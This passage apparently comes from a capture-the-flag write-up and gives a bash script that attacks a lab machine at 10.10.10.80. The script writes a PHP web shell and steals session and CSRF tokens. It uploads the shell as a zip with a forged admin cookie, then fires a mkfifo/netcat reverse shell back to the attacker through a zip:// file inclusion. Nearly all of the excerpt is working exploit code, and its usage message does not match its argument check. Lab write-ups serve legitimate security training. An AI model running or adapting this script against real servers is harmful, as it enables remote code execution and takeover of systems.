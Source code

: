 ### request\_shell.sh

It’s always nice to script up the shell, especially for one with as many steps as this.

```

#!/bin/bash

if [ "$#" != "2" ]; then
    echo "$0 [zip file] [shell] [parameter] [ip] [port]"
    echo "$# given"
    exit 1
fi

zip="/tmp/payload.zip"
shell="shell"
shell_path="/tmp/${shell}.php"
param="cmd"
ip=$1
port=$2

# create zip payload
echo "[*] Creating php shell and zip file"
rm -f ${zip} ${shell_path}
echo '<?php echo "<pre>" . system($_GET['cmd']) . "</pre>"; ?>' > ${shell_path}
zip -j /tmp/payload.zip /tmp/shell.php

# Get PHPSESSID and CSRF token from upload page
echo "[*] Getting PHPSESSID and CSRF token from /?op=upload"
tokens=$(curl -sD - http://10.10.10.80/?op=upload -x 127.0.0.1:8080 | grep -e PHPSESSID -e 'name="token"' | sed 's/\n/=/g')

readarray token_array  <<< $tokens
phpid=$(echo "${token_array[0]}" | cut -d';' -f1 | cut -d'=' -f2)
csrf=$(echo "${token_array[1]}" | cut -d'"' -f10)
echo -e "[+] Tokens received:\n  PIPSESSID: ${phpid}\n  CSRF:      ${csrf}"

# Upload zip file, get location
echo "[*] Uploading zip though /?op=upload form"
location=$(curl -X POST -sD - -F "tip=<${zip}" -F "name=a" -F "token=${csrf}" -F "submit=Send Tip!" -x 127.0.0.1:8080 http://10.10.10.80?op=upload -H "Cookie: admin=1; PHPS
ESSID=${phpid}" | grep Location | cut -d' ' -f2)
secret_file=$(echo -n ${location} | cut -d'=' -f3)
echo -e "[+] File uploaded to ${location}"

# Activate callback
url="http://10.10.10.80/"
op="zip://uploads/${ip}/${secret_file//[$'\r\n']}#${shell//[$'\r\n']}"
p="rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ${ip} ${port} >/tmp/f"

echo "[*] Initiating callback to ${ip}:${port}"
a=$(curl -s -G "${url}" --data-urlencode "op=${op}" --data-urlencode "${param}=${p}" -x 127.0.0.1:8080)

```

